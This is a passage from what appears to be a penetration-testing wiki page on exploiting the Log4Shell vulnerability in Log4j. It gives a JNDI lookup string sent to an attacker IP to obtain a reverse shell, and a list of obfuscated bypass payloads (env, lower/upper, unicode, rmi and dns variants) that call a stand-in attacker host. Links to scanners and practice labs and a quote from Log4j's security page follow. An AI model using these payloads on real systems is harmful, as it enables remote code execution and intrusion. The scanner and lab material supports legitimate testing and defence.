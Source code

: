 ![[../../images/image (1118).png]]

Now you can easily use a generated JNDI link to exploit the vulnerability and obtain a **reverse shell** just sending to a vulnerable version of log4j: **`${ldap://10.10.14.10:1389/generated}`**

### Bypasses

```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```

### Automatic Scanners

- [https://github.com/fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
- [https://github.com/adilsoybali/Log4j-RCE-Scanner](https://github.com/adilsoybali/Log4j-RCE-Scanner)
- [https://github.com/silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell)
- [https://github.com/cisagov/log4j-scanner](https://github.com/cisagov/log4j-scanner)
- [https://github.com/Qualys/log4jscanwin](https://github.com/Qualys/log4jscanwin)
- [https://github.com/hillu/local-log4j-vuln-scanner](https://github.com/hillu/local-log4j-vuln-scanner)
- [https://github.com/logpresso/CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)
- [https://github.com/palantir/log4j-sniffer](https://github.com/palantir/log4j-sniffer) - Find local vulnerable libraries

### Labs to test

- [**LogForge HTB machine**](https://app.hackthebox.com/tracks/UHC-track)
- [**Try Hack Me Solar room**](https://tryhackme.com/room/solar)
- [**https://github.com/leonjza/log4jpwn**](https://github.com/leonjza/log4jpwn)
- [**https://github.com/christophetd/log4shell-vulnerable-app**](https://github.com/christophetd/log4shell-vulnerable-app)

## Post-Log4Shell Exploitation

In this [**CTF writeup**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/) is well explained how it's potentially **possible** to **abuse** some features of **Log4J**.

The [**security page**](https://logging.apache.org/log4j/2.x/security.html) of Log4j has some interesting sentences:

> From version 2.16.0 (for Java 8), the **message lookups feature has been completely removed**. **Lookups in configuration still work**. Furthermore, Log4j now disables access to JNDI by default. JNDI lookups in configuration now need to be enabled explicitly.
